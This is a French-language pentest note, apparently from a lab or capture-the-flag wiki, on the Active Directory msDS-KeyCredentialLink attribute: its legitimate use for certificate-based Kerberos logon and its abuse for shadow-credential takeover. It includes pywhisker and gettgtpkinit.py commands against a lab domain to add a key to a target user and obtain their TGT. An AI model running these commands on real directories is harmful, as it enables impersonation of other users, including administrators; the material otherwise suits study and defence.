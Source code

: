 # KeyCredentialLink

#### <mark style="color:green;">🧠 Définition :</mark>

Le champ **KeyCredentialLink** (ou `msDS-KeyCredentialLink`) est un attribut LDAP introduit par Microsoft pour **stock­er des certificats d’authentification Kerberos** (PKINIT).

Il contient :

* des certificats,
* des clés publiques associées,
* et des métadonnées pour l’authentification par certificat (smartcard login, etc.).

***

#### <mark style="color:green;">⚙️ Utilisation légitime :</mark>

Quand un utilisateur s’authentifie avec une **carte à puce** (ou un certificat),\
son certificat est stocké dans l’attribut `msDS-KeyCredentialLink`.

Le contrôleur de domaine (KDC) l’utilise ensuite pour valider la signature et délivrer un **TGT Kerberos**.

***

#### <mark style="color:green;">💣 Abus offensif :</mark>

Si un attaquant peut **écrire dans cet attribut** pour un autre utilisateur (ex : administrateur),\
il peut y **ajouter un certificat contrôlé par lui-même**.

Ainsi, il peut :

* générer une paire de clés publique/privée,
* injecter la clé publique dans `KeyCredentialLink` de la cible,
* puis **s’authentifier au nom de cette cible** via PKINIT (Kerberos par certificat).

Outils :\
🧰 `pywhisker`, `certipy`, `whisker.py`

{% code fullWidth="true" %}
```sh
python3 pywhisker.py -d haze.htb -u "Backup$" -H "<NTLMhash>" --target "edward.martin" --action "add"

```
{% endcode %}

{% code fullWidth="true" %}
```
python3 gettgtpkinit.py -cert-pfx test.pfx -pfx-pass password haze.htb/edward.martin edward.ccache
```
{% endcode %}
